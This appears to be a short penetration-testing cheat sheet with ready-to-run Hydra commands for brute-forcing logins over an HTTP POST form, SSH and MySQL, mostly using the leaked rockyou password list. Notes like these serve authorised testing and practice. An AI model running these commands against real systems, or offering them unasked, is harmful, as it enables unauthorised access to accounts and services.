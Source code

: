 # bruteforce via post request

rhost contains just the dns or ip. When the form isnt in the root path specify
the url befor *:username*. Text for failed login attempt can be set after
*:F*.

```
hydra -l <username> -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
    "$rhost" http-post-form "/:username=^USER^&password=^PASS^:F=incorrect"
```

# bruteforce via ssh

```
hydra -l <username> -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
    "$rhost" -t 4 ssh
```

# bruteforce ssh with custom wordlist

```
hydra -L pot-user.txt -P pot-password.txt "$rhost" -t 4 ssh
```

# bruteforce sql

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt $rhost mysql
```
